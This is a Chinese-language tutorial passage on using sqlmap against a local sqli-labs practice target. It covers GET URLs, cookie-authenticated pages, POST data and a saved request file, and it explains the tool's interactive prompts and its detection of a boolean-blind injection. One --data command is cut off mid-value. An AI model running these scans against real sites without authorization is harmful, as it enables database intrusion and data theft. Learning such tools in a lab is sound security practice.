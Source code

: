 **对于不用登录的网站**，直接指定其 URL

```
sqlmap -u  "http://192.168.10.1/sqli/Less-1/?id=1"  

```

在探测目标 URL 是否存在漏洞的过程中，Sqlmap 会和我们进行交互。

比如第一处交互的地方是说这个目标系统的数据库好像是 Mysql 数据库，是否还探测其他类型的数据库。我们选择 n，就不探测其他类型的数据库了，因为我们已经知道目标系统是 Mysql 数据库了。

第二处交互的地方是说 对于剩下的测试，问我们是否想要使用扩展提供的级别 (1) 和风险 (1) 值的 “MySQL” 的所有测试吗？ 我们选择 y。

![](https://p2.ssl.qhimg.com/t01402f9ea9562a8e25.png)

第三处交互是说已经探测到参数 id 存在漏洞了，是否还探测其他地方，我们选择 n 不探测其他参数了 。

最后 sqlmap 就列出了参数 id 存在的注入类型是 boolean 盲注，还有 payload 其他信息也显示出来了，最后还列出了目标系统的版本，php，apache 等信息。

![](https://p1.ssl.qhimg.com/t018ffeaea388a20f96.png)

这次探测的所有数据都被保存在了 **/root/.sqlmap/output/192.168.10.1/** 目录下

![](https://p4.ssl.qhimg.com/t0109afcd10954974f6.png)

**对于需要登录的网站**，我们需要指定其 cookie 。我们可以用账号密码登录，然后用抓包工具抓取其 cookie 填入

```
sqlmap -u  "http://192.168.10.1/sqli/Less-1/?id=1"   --cookie="抓取的cookie"  

```

**对于是 post 提交数据的 URL**，我们需要指定其 data 参数

```
sqlmap -u "http://192.168.10.1/sqli/Less-11/?id=1" --data="u  

```

![](https://p2.ssl.qhimg.com/t01cd3dcbfe0685247b.png)

**我们也可以通过抓取 http 数据包保存为文件**，然后指定该文件即可。这样，我们就可以不用指定其他参数，这对于需要登录的网站或者 post 提交数据的网站很方便。

我们抓取了一个 post 提交数据的数据包保存为 post.txt，如下，uname 参数和 passwd 参数存在 SQL 注入漏洞

```
POST /sqli/Less-11/ HTTP/1.1
Host: 192.168.10.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Content-Type: application/x-www-form-urlencoded
Content-Length: 38
Referer: http://192.168.10.1/sqli/Less-11/
Connection: close
Upgrade-Insecure-Requests: 1

uname=admin&passwd=admin&submit=Submit

```

